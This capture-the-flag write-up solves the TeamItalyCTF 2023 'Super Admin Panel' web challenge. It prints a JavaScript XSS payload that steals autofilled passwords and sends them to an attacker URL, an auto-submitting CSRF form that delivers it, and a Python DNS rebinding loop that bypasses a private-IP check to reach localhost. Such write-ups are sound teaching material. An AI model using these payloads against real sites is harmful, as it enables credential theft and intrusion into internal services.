 # TeamItalyCTF 2023

## [web] Super Admin Panel (30 solves)
Try to hack our new and improved super admin panel! There is a special surprise for you available at 127.0.0.1:1337!

The challenge is reachable with hostname "web03" from within the container, the 1337 port remains correct. The challenge is always reachable from its URL.

Site: http://superadminpanel.challs.teamitaly.eu

Author: Jacopo Di Pumpo <@shishcat>

## Solution

Upon opening the website, we encounter a login page for an admin panel.

By inspecting the source code, we discover that the username is set to "admin," but the password remains unknown. The server expects users to input the password in base64 encoding.

Authentication on the server side is done securely comparing a SHA256 hash, but there's a vulnerability on the client side due to the presence of an admin bot. To gain access to the panel, we must exploit a client-side flaw.

The admin panel offers just one functionality: the ability to make HTTP GET requests to arbitrary URLs. However, the server verifies that the IP is not a private one before executing these requests, seemingly making it impossible to proceed: the flag is at 127.0.0.1:1337.

We can notice that the website has an XSS flaw: if you insert a wrong base64 password, the server will decode it and print it back to the user without any sanitization.

The bot doesn't have an authenticated cookie for the admin panel, and neither does it login with credentials. It just triggers the browser autofill system and clicks the "#pwn" button.
We can use [this attack](https://www.gosecure.net/blog/2022/06/29/did-you-know-your-browsers-autofill-credentials-could-be-stolen-via-cross-site-scripting-xss/): allows us to steal the autofill credentials by accessing the value of the fields that are automatically filled in once the bot clicks any button on the website.

Payload:
```js
document.addEventListener("DOMContentLoaded", ()=>{
    const passwordInput = document.getElementById("password");
    document.getElementById("pwn").addEventListener("click", () => {
        const password = passwordInput.value;
        if(passwordInput.value == "") return;
        fetch("{LEAK_URL}?"+encodeURIComponent(password));
    });
});
```

To actually exploit the XSS, we need to create an autofilling form on our server (CSRF):
```html
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>1</title>
</head>
<body>
    <form action="{URL}/panel" method="post">
        <input type="hidden" name="username" value="admin">
        <input type="hidden" name="password" value="{JS_PAYLOAD_BASE64}">
    </form>
    <script>
        document.addEventListener('DOMContentLoaded', function() {
            document.querySelector('form').submit();
        });
    </script>
</body>
```
We can send the link to this page to the bot, which will automatically submit the form with the exploit in the password field. This action triggers the "Wrong password" XSS attack on the website. As soon as the bot presses "#pwn," it steals the credentials and sends them to our server.

Now that we got in the panel, we need to get the contents of 127.0.0.1:1337 to obtain the flag.

The server checks whether the IP is local with a DNS request, and the way to bypass this check is with a DNS rebinding attack.

Note that in the payload, we utilize the service rbndr.us, which performs DNS rebinding by altering the DNS response with two different IPs having a low TTL. This may require several attempts before successfully returning the flag.

```python
    while True:
        try:
            x = requests.post(URL + "/panel", cookies={"passw": password},
                              data={"link": "http://7f000001.c0a80001.rbndr.us:1337/"},
                              timeout=2)
            if "Hackers not allowed" in x.text:
                print(".", end="", flush=True)

            if "Content: " in x.text:
                flag = x.text.split("Content: ")[1].split("<")[0]
                print(flag, end="\n", flush=True)
                break

            time.sleep(0.2)
        except:
            print("!", end="", flush=True)
```

